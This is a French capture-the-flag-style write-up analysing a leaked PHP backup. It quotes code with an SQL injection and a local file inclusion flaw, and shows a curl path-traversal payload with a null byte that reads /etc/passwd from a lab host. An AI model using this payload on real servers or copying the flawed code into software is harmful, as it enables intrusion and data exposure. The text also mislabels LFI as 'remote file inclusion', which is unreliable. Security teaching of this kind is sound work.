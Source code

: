 ### Analyse de code_backup.tgz : exploitation de l'injection SQL

Parmi les fichiers présents dans ```code_backup.tgz```, on trouve dans ```/actions``` le fichier ```default.php```, dont voici un extrait. 

```php
$id = isset($_GET['id']) ? $_GET['id'] : 0;

if ($id) {
	$sql = "select e.*, u.user_username
			from event e, user u
			where 
				e.user_id = u.user_id
				AND e.event_id = " . $id;
}

--snip--

$query = mysql_query($sql) or $log->append("Problem with event select: . " . mysql_error());
```

Les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. L'injection SQL trouvée sur le site s'explique : le paramètre ```$id``` fourni par l'utilisateur (via la méthode GET) est utilisé tel quel, concaténé à la requête SQL sans aucune vérification, alors qu'il doit obligatoirement s'agir d'une valeur numérique supérieure ou égale à zéro.

### Analyse de code_backup.tgz : Local File Inclusion (LFI) sur la page login.php

Dans ce même répertoire ```/actions```, le fichier ```login.php``` nous réserve une bonne surprise !

```php
if ($logged_in) 
	include_once('templates/logged_in.tpl');
else 
	include_once('templates/'.$_GET['action'].'.tpl');
```

Une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) semble possible via ce fichier PHP et son paramètre ```action```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Le dossier templates contient bien une dizaine de fichiers (```add_event.tpl```, ```changepass.tpl```, ```footer.tpl```, ```header.tpl```, ```login.tpl```...), mais rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```action```.

Exemple avec le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système.

On y retrouve notamment les cinq membres du staff pro-widget-certified-widget John, Linda, Fred, Molly et Toby.

```console
root@blinils:~# curl http://192.168.56.101/actions/login.php?action=../../../../../../../../etc/passwd%00
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
--snip--
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
pcap:x:77:77::/var/arpwatch:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
dovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologin
```